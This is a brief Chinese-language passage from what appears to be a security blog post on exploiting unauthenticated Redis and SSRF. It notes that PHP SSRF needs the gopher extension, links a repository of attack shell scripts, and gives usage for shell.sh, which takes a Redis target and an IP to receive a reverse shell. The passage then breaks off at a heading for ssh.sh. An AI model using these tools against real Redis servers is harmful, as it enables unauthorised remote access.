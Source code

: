 

在php中的ssrf的话需要安装gopher协议拓展，就可以达到一样的效果。



# 自动化利用

我将之前的三种利用方式都写成了.sh的脚本形式，方便使用,只需本地要提前安装好redis

https://github.com/kingkaki/Exploit-scripts/tree/master/redis 还包含了socat捕获的流量报文样例

## 演示

![](redis未授权访问与ssrf利用/1.gif)

## 脚本

### shell.sh

用法

```
./shell.sh [redis-ip] [redis端口] [接收shell的ip]
```

默认端口为23333

### ssh.sh
